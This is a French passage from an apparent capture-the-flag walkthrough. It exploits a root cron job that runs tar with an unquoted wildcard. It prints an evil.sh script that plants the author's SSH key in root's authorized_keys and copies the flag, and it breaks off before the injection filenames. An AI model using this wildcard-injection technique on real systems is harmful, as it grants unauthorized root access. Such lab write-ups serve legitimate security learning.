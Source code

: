 Un peu plus tard je remarque que les fichiers .BAK ont disparus... Crontab bien sûr :  

```plain
* * * * * root /root/create_backup.sh
*/5 * * * * root /usr/bin/compress.sh
```

Le premier est inaccessible mais le second est lisible :  

```bash
#!/bin/sh

rm -f /home/rene/backup/backup.tar.gz
cd /home/rene/backup
tar cfz /home/rene/backup/backup.tar.gz *
chown rene:rene /home/rene/backup/backup.tar.gz
rm -f /home/rene/backup/*.BAK
```

Je lance quelques idées :  

* Tenter de placer un lien symbolique par exemple vers /etc/shadow pour que tar l'archive : échec car tar ne suit pas les liens
* Exploiter une race condition entre le cd et le tar. Si on supprime le dossier backup et qu'on créé un lien symbolique vers /root et qu'on a réparé ça avant l'appel à tar on peut en théorie récupérer le contenu de /root. Sauf que l'on manque de droit et ça aurait été très chaud...

Heureusement ça a finir par faire tilt quand je me suis rappelé le principe des attaques wildcards : vu que la commande tar utilise l'astérisque et que ce dernier n'est pas entre quotes, il est possible de créer des fichiers dont les noms seront utilisés comme arguments de la commande.  

Je vois bien une option dans la page de man de tar mais elle n'est utilisée que lors d'une décompression :  

```plain
--to-command=COMMAND
    pipe extracted files to another program
```

J'ai fini par trouver [une astuce](https://www.soliantconsulting.com/blog/dangers-wildcards-bash) qui utilise les checkpoints.  

D'abord je créé un script *evil.sh* dans */home/rene/backup* :  

```bash
#!/bin/bash
mkdir -p /root/.ssh/
echo "ssh-rsa [--- ma clé publique ssh ---]" >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
cp /root/flag.txt /tmp/
chmod o+r /tmp/flag.txt
```

Ce script rajoute ma clé publique SSH aux clés autorisées de root et au cas où je recopie aussi le flag.  

Il ne reste plus qu'à mettre en place les fichiers qui vont s'injecter dans la commande du crontab :  
